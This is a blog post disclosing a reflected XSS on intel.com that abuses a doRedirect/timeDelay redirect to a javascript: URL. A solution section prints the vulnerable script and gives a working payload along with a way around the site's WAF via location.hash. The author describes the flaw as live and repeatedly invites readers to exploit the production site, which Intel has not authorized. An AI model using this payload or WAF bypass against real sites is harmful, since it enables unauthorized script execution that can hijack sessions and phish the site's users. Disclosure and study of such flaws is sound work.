 ```yaml
---
title: Intel Suspicious XSS
excerpt: an XSS in Intel.com
date: 2025-03-16T17:28:32.032Z
image: ../assets/images/intel-xss.webp
tags:
    - cyber
    - hidden
    - intel
categories:
    - cyber
permalink: /intel-suspicious-xss
---
```

![screenshot of intel.com alert](../assets/images/intel-xss.webp)
## minimal research
Just the other day, I was browsing the homepages of big companies (with the purpose of finding interesting things) and was shocked by the [Intel.com](https://www.intel.com/content/www/us/en/homepage.html) website.

The first thing that got me interested, is that from a simple search of `debug` in the developer tools I get a result like `location.search.includes("debugger")` (check if the URL part after `?` include `debugger`). That is weird, but not uncommon for a company to have. I append `?debugger=true` and noticed the page didn't change much.

But after comparing to the search result for `location.href=` I discovered the page did change (in fact, it would have on any URL parameter), because now there are more JavaScript scripts loaded: most notably, there is now a new file `commons-page.min.js` which includes most of the results (which is already a red alert, as setting `location.href` to non-fixed addresses is not recommended). The new file is non-debuggable and generated dynamically through a jQuery script so it's not possible to debug in chromium and showed up as `sourceNNN` in Firefox.

## Challenge
The new script uses the function `CQ.shared.XSS.getXSSValue` to protect against XSS.
Here is the function definition:
```javascript
shared.XSS.getXSSValue: function (a) { 
    return  _g.Util.htmlEncode(a)
}
Util.htmlEncode: function (a) {
    return String(a)
        .replace(/&/g, '&amp;')
        .replace(/>/g, '&gt;')
        .replace(/</g, '&lt;')
        .replace(/"/g, '&quot;') 
}
```
The function escapes HTML tags (like `<` and `>` along with escaping double quotes).

As of writing this article, the XSS is live at intel.com. You can go right now to experiment and find the XSS on your own. The XSS part seems unrelated to the structure of the file, as if someone added it in a hurry.

Since I found this XSS the WAF (Akami edgesuite) became a little more sophisticated, and now blocks all obvious attempts to run XSS. As of today, when you want to test your XSS, make the target be `javascript:decodeURIComponent(location.hash)`, and experiment with the hash instead of the URL parameters.

Go now to [https://www.intel.com/content/www/us/en/homepage.html?debugger=true](https://www.intel.com/content/www/us/en/homepage.html?debugger=true) take 5 minutes, and try to find the XSS yourself!

Note to Brave browser users: Brave shields block the dynamic file as "fingerprinting" so disable that.
<hint>Hint: it's at the end of the new dynamic file `commons-min.js`</hint>
<details markdown="block">
  <summary> <b>Solution</b> </summary>
At end of the dynamic file this part appears:

```javascript
var queryParamsURL = CQ.shared.XSS.getXSSValue(window.location.search)
  , queryParams = queryParamsURL.slice(1);

if (queryParams && queryParams.includes("doRedirect") && queryParams.includes("timeDelay")) {
    for (var url, timeDelay, params = queryParams.split("\x26"), i$22 = 0; i$22 < params.length; i$22++) // "\x26" = "&"
        params[i$22].includes("doRedirect") && (url = params[i$22].split("doRedirect\x3d")[1]), // "\x3d" = "="
        params[i$22].includes("timeDelay") && (timeDelay = params[i$22].split("timeDelay\x3d")[1]);

    url && timeDelay && setTimeout(function() {
        window.location.href = url
    }, timeDelay)
};
```
which, deobfuscated to pseudocode is:
```javascript
const queryParamsURL = CQ.shared.XSS.getXSSValue(window.location.search)
const url = queryParamsURL.get("doRedirect")
const timeDelay = queryParamsURL.get("timeDelay")

if (url && timeDelay){
     // run `window.location.href = url` after timeDelay ms.
    setTimeout(()=>{
        window.location.href = url
    }, timeDelay)
}
```
The `CQ.shared.XSS.getXSSValue` is not relevant, as it protects against HTML injection, and not against XSS using redirect to the `javascript:` protocol.

That means that a URL like `?doRedirect=javascript:alert(6)&timeDelay=0` should successfully run JavaScript, however the WAF blocks that because of the `alert(` keyword, so I bypassed it using location.hash: `?timeDelay=4&doRedirect=javascript:decodeURIComponent(location.hash)#<svg%20onload=alert(document.domain)></svg>` and I got XSS.
</details>

## intel

Intel doesn't provide a bug bounty for website vulnerabilities as they don't consider that a product.
So I opened up an *informative* bug report, here is the response:
<img src="../assets/images/intel_of_of_scope.webp" title="bug report asking me to send email" alt="intel_of_of_scope.webp" data-align="center">
However, they didn't respond to any of the emails I sent to `external.security.research@intel.com`. 


I wonder if one of the employees added it (when they were fired, for example), as the XSS doesn't fit at all in the tracking file, and it was obfuscated strangely. 

I hope you enjoy testing out intel's new XSS :)
